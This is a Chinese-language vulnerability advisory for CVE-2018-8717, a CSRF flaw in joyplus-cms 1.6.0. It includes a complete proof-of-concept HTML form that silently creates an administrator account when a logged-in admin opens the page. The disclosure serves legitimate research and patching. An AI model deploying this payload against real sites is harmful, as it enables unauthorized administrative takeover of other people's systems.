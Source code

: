 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|joyplus-cms-1.6.0存在CSRF漏洞可增加管理员账户|2018-03-14|yx（yx@5ecurity.cn）|[https://github.com/joyplus/joyplus-cms/](https://github.com/joyplus/joyplus-cms/) | [https://github.com/joyplus/joyplus-cms/](https://github.com/joyplus/joyplus-cms/) |1.6.0 | [CVE-2018-8717](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-8717)|  

#### 漏洞概述  

> joyplus-cms 1.6.0存在CSRF漏洞，当管理员登陆后访问下面CSRF测试页面可将普通用户提成为管理员权限。joyplus-cms是一个在github上开源的CMS系统，漏洞发现者已经将漏洞信息通过[issues](https://github.com/joyplus/joyplus-cms/issues/419)告知作者。  

### POC实现代码如下：  

> CSRF测试页面代码如下：
``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.126.129/joyplus-cms-master/joyplus-cms/manager/admin_ajax.php?action=save&tab={pre}manager" method="POST">
      <input type="hidden" name="m&#95;id" value="" />
      <input type="hidden" name="flag" value="add" />
      <input type="hidden" name="m&#95;name" value="admin1" />
      <input type="hidden" name="m&#95;password" value="admin1" />
      <input type="hidden" name="m&#95;status" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
